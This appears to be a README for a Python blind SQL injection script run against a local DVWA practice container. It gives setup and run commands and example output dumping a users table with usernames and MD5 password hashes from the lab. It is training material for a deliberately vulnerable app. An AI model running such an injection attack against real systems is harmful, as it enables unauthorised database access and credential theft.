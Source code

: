 # Blind SQL injection script

## Requirements

`python 3.9` and `httpx`

Install: `pip install httpx` (or better yet, use venv)


## Lab setup

Start the DVWA docker container by using:

`docker run --rm -it -p 80:80 vulnerables/web-dvwa`


## Run

To run the script just use:
`python sqli.py`


## Example output

```
The table 'users' has 8 columns
The table 'users' has 5 rows
Table 'users' records:
	['user_id', 'first_name', 'last_name', 'user', 'password', 'avatar', 'last_login', 'failed_login']
	['1', 'admin', 'admin', 'admin', '5f4dcc3b5aa765d61d8327deb882cf99', '/hackable/users/admin.jpg', '2021-03-20 02:28:23', '0']
	['2', 'Gordon', 'Brown', 'gordonb', 'e99a18c428cb38d5f260853678922e03', '/hackable/users/gordonb.jpg', '2021-03-20 02:28:23', '0']
	['3', 'Hack', 'Me', '1337', '8d3533d75ae2c3966d7e0d4fcc69216b', '/hackable/users/1337.jpg', '2021-03-20 02:28:23', '0']
	['4', 'Pablo', 'Picasso', 'pablo', '0d107d09f5bbe40cade3de5c71e9e9b7', '/hackable/users/pablo.jpg', '2021-03-20 02:28:23', '0']
	['5', 'Bob', 'Smith', 'smithy', '5f4dcc3b5aa765d61d8327deb882cf99', '/hackable/users/smithy.jpg', '2021-03-20 02:28:23', '0']
```
